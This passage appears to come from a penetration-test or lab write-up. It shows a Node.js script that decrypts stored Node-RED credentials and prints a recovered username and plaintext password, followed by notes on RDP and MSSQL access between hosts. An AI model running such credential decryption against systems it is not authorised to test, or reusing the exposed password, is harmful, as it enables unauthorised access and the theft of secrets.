 We found a way to decrypt and obtain the password for the config using this [article](https://blog.hardill.me.uk/2021/02/17/viewing-node-red-credentials/).

```js
const crypto = require('crypto');
 
var encryptionAlgorithm = "aes-256-ctr";
 
function decryptCreds(key, cipher) {
  var flows = cipher["$"];
  var initVector = Buffer.from(flows.substring(0, 32),'hex');
  flows = flows.substring(32);
  var decipher = crypto.createDecipheriv(encryptionAlgorithm, key, initVector);
  var decrypted = decipher.update(flows, 'base64', 'utf8') + decipher.final('utf8');
  return JSON.parse(decrypted);
}
 
var creds = require("./" + process.argv[2])
var secret = process.argv[3]
 
var key = crypto.createHash('sha256').update(secret).digest();
 
console.log(decryptCreds(key, creds))
```

We were able to use the script with the relevant files and decrypt the password.

<img src="attachments/59260034f97118c3d74a0f4ac3f1e4e2.png" />

```
username: 'nodered_connector', password: 'DreamPuppyOverall25'
```

We couldn't use this password for anything inside the host. We also only can access the other two hosts via RDP from the perimeter level.

Additionally, we noted that HostB was named `SQL`, even though we could access the MSSQL port externally.
